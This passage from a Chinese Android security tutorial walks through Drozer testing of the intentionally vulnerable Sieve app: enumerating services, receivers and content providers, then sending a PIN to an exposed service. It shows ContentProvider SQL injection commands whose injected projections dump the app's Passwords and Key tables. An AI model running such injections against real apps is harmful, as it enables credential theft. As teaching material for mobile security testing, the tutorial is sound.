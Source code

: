 run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg2354 9234  0 --extra string com.mwr.example.sieve.PIN 1111 --bundle-as-obj  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7M3pypS9W2QfH99Us1UDWtVW2yHlwwPr1icrzXQL7I6pniclPuib7rQLcvA/640?wx_fmt=png "")  
  
### 2.2.4    BroadcastReceiver漏洞挖掘  
  
查看暴露的广播组件信息  
  
run app.broadcast.info -a com.mwr.example.sieve  
### 2.2.5    ContentProvider漏洞挖掘  
  
-  
ContentProvider  
注入漏洞  
  
run app.provider.info -a com.mwr.example.sieve  
  
run scanner.provider.injection -a com.mwr.example.sieve  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MsERxlhp94ZXJM5HZMLhNRT0BULh5bVicqqTVVInQPjXtFvaf8Bpwt1w/640?wx_fmt=png "")  
  
通过命令即可拿到数据库的数据  
  
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* from Passwords;-"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MH9owWut4hxm8vQbVha9EOVfYQl3jibh8QKP6lhqtsGq1g8sDHKnACVg/640?wx_fmt=png "")  
  
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* from Key;-"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7Mib5SjdB1Gtr3n2MrORentjZhXlUb2aqGq0JPVANoftcyXNVGibMdUvRg/640?wx_fmt=png "")  
  
### 2.2.6    批量拒绝服务漏洞  
  
Drozer  
有个最大的优点就是模块化，提供很多  
API  
接口可以由测试人员自由编写测试脚本，这里推荐一种加载模块的方法  
  
在  
repository  
中按照  
python  
包管理的方法新建目录结构，将  
python  
文件放入相应目录中  
  
dz> module repository create [/path/to/repository]  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSbf9vbb0D84PNNS7O7Ed7MewgOqyFFEfNYTTL05QgAZ3icP5ol3g9zfptXib7cFVlPMdyNzZIJK5aQ/640?wx_fmt=png "")  
  
然后首先要输出崩溃的日志。  
  